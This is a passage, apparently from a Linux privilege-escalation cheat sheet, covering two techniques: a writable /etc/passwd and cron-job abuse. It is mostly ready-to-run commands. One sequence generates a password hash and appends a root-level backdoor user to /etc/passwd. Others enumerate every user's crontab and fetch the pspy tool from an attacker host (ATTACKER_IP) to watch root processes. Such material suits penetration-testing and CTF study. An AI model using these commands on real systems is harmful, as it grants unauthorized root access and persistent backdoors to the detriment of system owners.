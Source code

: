 ```bash
# If /etc/passwd is writable:

# Generate password hash
openssl passwd -1 -salt evil password123
# Output: $1$evil$hash...

# Add new root user
echo 'evil:$1$evil$hash...:0:0:root:/root:/bin/bash' >> /etc/passwd

# Switch to new user
su evil
# Password: password123

# Now root!
```

---

## Priority 6: Cron Jobs

### Discover Cron Jobs

```bash
# System cron
cat /etc/crontab
ls -la /etc/cron.*
ls -la /etc/cron.d/

# User cron
crontab -l
crontab -l -u username 2>/dev/null

# Check all users' cron
for user in $(cut -f1 -d: /etc/passwd); do 
    echo "=== $user ===" 
    crontab -u $user -l 2>/dev/null
done
```

### Monitor Running Processes

```bash
# Download pspy
wget http://ATTACKER_IP/pspy64
chmod +x pspy64

# Run and watch
./pspy64

# Look for:
# - Root processes running scripts
# - Scripts you can modify
# - Wildcards in commands (tar *, chmod *, etc.)
```
